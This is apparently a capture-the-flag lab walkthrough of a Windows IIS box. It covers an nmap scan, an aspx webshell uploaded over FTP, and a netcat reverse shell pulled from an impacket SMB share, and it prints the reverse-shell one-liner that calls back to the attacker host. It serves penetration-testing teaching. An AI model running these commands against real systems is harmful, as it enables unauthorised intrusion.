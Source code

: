 ``` nmap -p- 10.10.10.6 -sC -sV -oA full-scan ```
Whoop! It works, so what could possibly go wrong with allowing someone to upload files to the root directory of a web server? 


## Command Execution

A quick check of ``` webshells ``` on Kali gives a list of types of webshells available and changes that to your current directory.

![Web Shells]({{site.url}}/assets/devel/web-shells.png)

Now remember at the beginning when Nmap highlighted that the web server was IIS 7.5. Well that piece of information is now pretty useful as it gives an understanding on what languages the server is likely to understand and execute. As it's Windows and IIS picking an aspx webshell is a good way forward. Kali has one available in the aspx directory that can quickly be copied to your working directory ready to be uploaded using the ftp client. 

Once uploaded it is possible to browse to ``` http://10.10.10.5/cmdasp.aspx ``` to access it. This will give a very simple webpage with a text box for user input, and an execute button. 

![Empty Web Shell]({{site.url}}/assets/devel/blank-webshell.png)

How this works, is that whatever the user puts into the ``` command ``` field is taken and passed as an argument to ``` cmd.exe /c ``` when the execute button is pressed. The output is then displayed to screen, as shown with ``` whoami ``` in this example.

![Whoami]({{site.url}}/assets/devel/whoami.png)


## Get a Shell

Now that command execution is confirmed the next step is to look at a way of getting a full shell on the box. There are a few ways you can do this, like uploading a msfvenom payload and executing it, or running a powershell one-liner (a really long one liner). But for this one I am going to use a smbserver to host netcat and execute a reverse shell command. 

The smbserver is setup using the impacket-smbserver script with the following command:

``` impacket-smbserver -smb2support <share name> <directory to share> ```

Just make sure that nc.exe is in the directory you share! You can find where it is with ``` locate nc.exe ``` and then copy it to your working directory. Then run the command to setup your smb server. 

![Share Setup]({{site.url}}/assets/devel/setup-share.png)

Once it is setup a listener is setup using netcat:

``` nc -nlvp 443 ```

Then the netcat reverse shell command is run. 

``` \\10.10.14.33\tiro\nc.exe -e cmd.exe 10.10.14.33 443 ```

This looks a bit different to usual, but only because it is passing the network share location of nc.exe. The incoming request to the smb server should be seen in the terminal output:

![Accessing Share]({{site.url}}/assets/devel/accessing-share.png)

The listener will then catch the incoming connection and give a command shell. 

![Shell]({{site.url}}/assets/devel/shell-catching.png)

```